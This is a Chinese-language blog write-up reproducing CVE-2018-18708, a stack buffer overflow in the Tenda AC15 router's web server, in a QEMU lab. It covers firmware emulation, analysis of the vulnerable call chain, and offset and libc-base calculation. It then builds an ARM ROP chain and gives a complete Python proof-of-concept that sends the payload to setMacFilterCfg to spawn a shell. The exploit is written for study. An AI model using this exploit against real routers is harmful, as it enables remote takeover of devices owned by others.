# Tenda AC15栈溢出漏洞复习(CVE-2018-18708)-先知社区

> **来源**: https://xz.aliyun.com/news/18473  
> **文章ID**: 18473

---

# Tenda AC15栈溢出漏洞(CVE-2018-18708)

# 前言

最近开始学习复现Tenda的漏洞，发现很多洞都是一系列的栈溢出漏洞，这些洞的固态仿真都是一样的，函数调用流程是不一样的，但对于pwn手来说，个人感觉最难的还是固态仿真和调试，这些都一样的话，函数流程逐个分析都可以拿下

具体分析一下CVE-2018-18708

CVE-2018-18708，多款Tenda产品中的httpd存在缓冲区溢出漏洞。攻击者可利用该漏洞造成拒绝服务（覆盖函数的返回地址）。以下产品和版本受到影响：Tenda AC7 V15.03.06.44\_CN版本；AC9 V15.03.05.19(6318)*CN版本；AC10 V15.03.06.23\_CN版本；AC15 V15.03.05.19\_CN版本；AC18 V15.03.05.19(6318)*CN版本。

固件下载地址：<https://www.tenda.com.cn/material>

# 环境搭建

拿到.bin文件，binwalk分离一下，二进制文件是./bin/httpd，ida逆向查看源码，

首先将qemu-arm-static复制到squashfs-root目录下

直接利用qemu来运行试一下

```
cp $(which qemu-arm-static) .

sudo chroot . ./qemu-arm-static bin/httpd
```

这里运行到welcome to..就卡住了



这里需要patch一下，这两个函数根据意思可以猜测一下，一个是检查网络，一个是链接的



改为mov r3,#1,然后将httpd替换，注意修改权限



还有一个页面无法显示的问题，实际上就是webroot没有东西，webroot\_ro是备份，将webroot\_ro换一下名字即可





环境成功搭建



笔者这边ip已经转发到bro网卡了，所以没用遇到监听ip错误问题，遇到的师傅可以看下别的文章



# 漏洞分析

函数调用流程是sub\_2E420(main)->sub\_2E9EC()->sub\_42378()->formSetMacFilterCfg->sub\_C14DC->sub\_C17A0->sub\_C24C0

sub\_42378可以理解为他要执行的功能，和Dlink中的main中对应不同的web服务异曲同工



漏洞点在formSetMacFilterCfg函数中,触发点在sub\_C24C0中

s2\_1,s2通过sub\_2BA8C进行传参，该函数实际为websGetVar()函数，这两个参数分别是macFilterType和deviceList的参数



sub\_C10D0(s2\_1) 查看此函数

该函数是用来判断传入的macFilterType参数是否符合要求(macFilterType\=black或者macFilterType\=white），返回0则代表正确，会进入到下述代码的else判断，从而才能进入到v19 \= sub\_C14DC(v18, v17);

接下来进入到v19 \= sub\_C14DC(v18, v17); v17是我们主要关注对象(v18实际上是macFilterType，因为上面我们分析过，该参数必须是white和black，写死了，并不能作为溢出点)，该参数为deviceList

漏洞在于s2，这个参数没有任何限制，也是我们要重点关注的



然后s经sub\_C17A0传入sub\_C24C0(s, src);





这里strcpy直接将s copy给src+32，这里就是漏洞触发点，这里可以控制返回地址，进而getshell



引用：



# 漏洞利用

## 测试偏移

优先选择cyclic

需要开三个终端

```
第一个
sudo chroot . ./qemu-arm-static -g 1234 ./bin/httpd
转发端口1234
```

```
第二个
用gdb-multiarch进行调试
gdb-multiarch -x mygdb.sh

target remote :1234
file ./bin/httpd
```

```
第三个
python3 1.py
import requests
from pwn import * 

url = "http://192.168.87.135/goform/setMacFilterCfg"
cookie = {"Cookie":"password=1234111115"}
data = {"macFilterType": "white", "deviceList": b"\r"+ cyclic(500)}

response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```

这里需要多发送几遍，Tenda的通病

这里偏移测出来是176



## 计算libc\_base

vmmap是拿不到的，这里还有很多方法



可以在puts下断点，此时可以得到puts的函数地址，然后减去libc.so.0中的偏移0xff5c1cd4



0x35CD4

libc\_base=0xff5c1cd4-0x35CD4=0xff58c000

## 构造ROP链

这里先补充一些知识

寄存器：

r0：ARM架构中用于传递函数第一个参数（如 system("/bin/sh") 中的 "/bin/sh" 地址）。

r3：通用寄存器，此处用于暂存 system 函数地址。

pc：程序计数器，指向下一条要执行的指令地址。通过控制 pc，可以劫持程序流。

‍

CPSR的T位作用：CPSR寄存器的T位（Thumb模式标志位）决定CPU执行模式：T=0：执行ARM指令（4字节对齐）。T=1：执行Thumb指令（2字节对齐）。影响：若跳转到Thumb指令（如 system 函数是Thumb模式），地址需为奇数（如 0xdeadbeef | 1）。例如：system 地址为 0x5A270（Thumb模式），则实际跳转地址应为 0x5A271。

p/t $cpsr



1100 0000 0000 0000 0000 0000 0010 0000 ，从右向左第五组0000即为T位，此时是0，所以不需要对system地址增加

‍

gadget1

```
ROPgadget --binary ./lib/libc.so.0 --only "pop"| grep r3
0x00018298 : pop {r3, pc}
```

gadget2

```
ROPgadget --binary ./lib/libc.so.0  | grep "mov r0, sp"
0x00040cb8 : mov r0, sp ; blx r3
```

利用gadget1，将r3传入system，将pc传入gadget2，同时ROP链最后+/bin/sh字符串，此时/bin/sh字符串在栈顶sp，sp指向/bin/sh字符串，sp被赋给r0，也就是第一个参数指向/bin/sh，r3为system，即可执行system(/bin/sh)；来getshell

```
payload:

gadget1=pop {r3,pc}
gadget2=mov r0, sp ; blx r3
ROP:gadget1+system+gadget2+b'/bin/sh\x00'


payload = 
    b'A' * 溢出偏移      # 填充至返回地址前
    + p32(gadget1_addr) # pop {r3, pc}
    + p32(system_addr)  # 存入 r3
    + p32(gadget2_addr) # 跳转到 gadget2
    + b"/bin/sh\x00"    # 字符串参数（通过 r0 传递）
```

## POC

```
from pwn import *
import requests

#cmd = "echo PWN!"

cmd = b"/bin/sh"
libc_base = 0xff58c000
system = libc_base + 0x5A270
mov_r0_ret_r3 = libc_base + 0x40cb8
pop_r3 = libc_base + 0x18298

payload = b'a'*176
#payload+= str(p32(pop_r3) + p32(system) + p32(mov_r0_ret_r3)).encode() + cmd
#payload+= str((p32(pop_r3) + p32(system) + p32(mov_r0_ret_r3)),encoding="utf-8") + cmd
payload+= p32(pop_r3) + p32(system) + p32(mov_r0_ret_r3) + cmd

url = "http://192.168.87.135/goform/setMacFilterCfg"

cookie = {"Cookie":"password=12345"}
data = {"macFilterType": "black", "deviceList": b"\r" + payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```

成功getshell



# 总结

Tenda这个栈溢出漏洞基本都是通用的，刚兴趣的师傅可以去复现一下Tenda AC9(CVE-2018-18708)
